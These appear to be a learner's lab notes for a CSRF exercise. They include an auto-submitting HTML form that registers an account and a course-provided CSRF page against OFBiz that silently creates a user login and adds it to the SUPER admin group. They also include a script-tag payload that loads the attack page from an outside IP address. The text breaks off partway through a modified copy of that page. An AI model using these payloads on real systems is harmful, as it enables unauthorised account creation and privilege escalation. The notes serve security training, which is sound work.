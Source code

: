 mine:
csrftest.html
```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="/loginLogout" method="post" name="csrf">
    <input type="hidden" name="_token" value="LrJUEU2RNjESdh7G8ZeafIFsK1SzVgR1dRtNNoxY">
    <input type="hidden" name="username" value="bugstwo">
    <input type="hidden" name="password" value="bugstwo">
    <input type="hidden" name="firstName" value="bugstwo">
    <input type="hidden" name="lastName" value="bugstwo">
    <input type="hidden" name="email" value="bugstwo@local.com">
    <input type="hidden" name="dtype" value="isRegister">
    <input type="hidden" name="type" value="100">
  </form>
</body>
</html>
```
from course material what it should looks like:
```html
<html>
<head>
<script>
  function submitForms() {
    document.forms['csrf'].submit();
    document.forms['csrf2'].submit();
    return false;
  }
</script>
</head>
<body onload="submitForms();" >
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf" target="_blank">
    <input type="hidden" name="enabled">
    <input type="hidden" name="partyId">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="currentPassword" value="password">
    <input type="hidden" name="currentPasswordVerify" value="password">
    <input type="hidden" name="passwordHint">
    <input type="hidden" name="requirePasswordChange" value="N">
    <input type="hidden" name="externalAuthId">
    <input type="hidden" name="securityQuestion">
    <input type="hidden" name="securityAnswer">
  </form>
  <form action="https://ofbiz:8443/webtools/control/userLogin_addUserLoginToSecurityGroup" method="post" name="csrf2" target="_blank">
<input type="hidden" name="userLoginId" value="csrftest">
<input type="hidden" name="partyId">
<input type="hidden" name="groupId" value="SUPER">
<input type="hidden" name="fromDate_i18n">
<input type="hidden" name="fromDate">
<input type="hidden" name="thruDate_i18n">
<input type="hidden" name="thruDate">
  </form>
</body>
</html>
```
mine modified
`csrftest2.html`
payload: `<script src="http://192.168.45.155:8000/csrftest2.html"></script>`
```html
<html>
<head>
<script>
  function submitForms() {
```